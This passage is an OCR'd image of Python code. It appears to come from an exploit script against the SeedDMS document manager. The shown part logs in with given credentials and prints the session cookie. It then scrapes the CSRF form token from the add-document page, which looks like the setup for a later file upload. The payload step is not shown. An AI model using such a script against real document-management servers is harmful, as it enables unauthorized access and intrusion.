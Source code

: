         postData = {
            'login': username,
            'pwd': password,
            'lang' : 'en_GB'
        }
        try:
            rsl = sessionObj.post(url, data=postData)

            if(rsl.status_code == 200):
                if "Error signing in. User ID or password incorrect." in rsl.text:
                    print("[!] Incorrect Credential.")
                else:
                    print("[*] Login Successful.")
                    print("[*] Session Token: " + sessionObj.cookies.get_dict()['mydms_session'])
                    return sessionObj

            else:
                print("[!] Something went wrong.")
                print("Status Code: %d" % (rsl.status_code))
                sys.exit(0)
        except Exception as e:
            print("[!] Something Went Wrong!")
            print(e)
            sys.exit(0)

        return sessionObj

    def formTokenCapturing(sessionObj, url):
        path = "/out/out.AddDocument.php?folderid=1&showtree=1"
        url += path
        formToken = ""

        try:
            rsl = sessionObj.get(url)

            if(rsl.status_code == 200):
                print("[*] Captured Form Token.")

                #extracting form token
                soup = BeautifulSoup(rsl.text,'html.parser')
                form1 = soup.findAll("form", {"id": "form1"})

                soup = BeautifulSoup(str(form1[0]),'html.parser')
                formToken = soup.find("input", {"name": "formtoken"})
                print("[*] Form Token: " + formToken.attrs['value'])

                return sessionObj, formToken.attrs['value']
            else:
                print("[!] Something went wrong.")
                print("Status Code: %d" % (rsl.status_code))
                sys.exit(0)

        except Exception as e:
            print("[!] Something Went Wrong!")
            print(e)
            sys.exit(0)
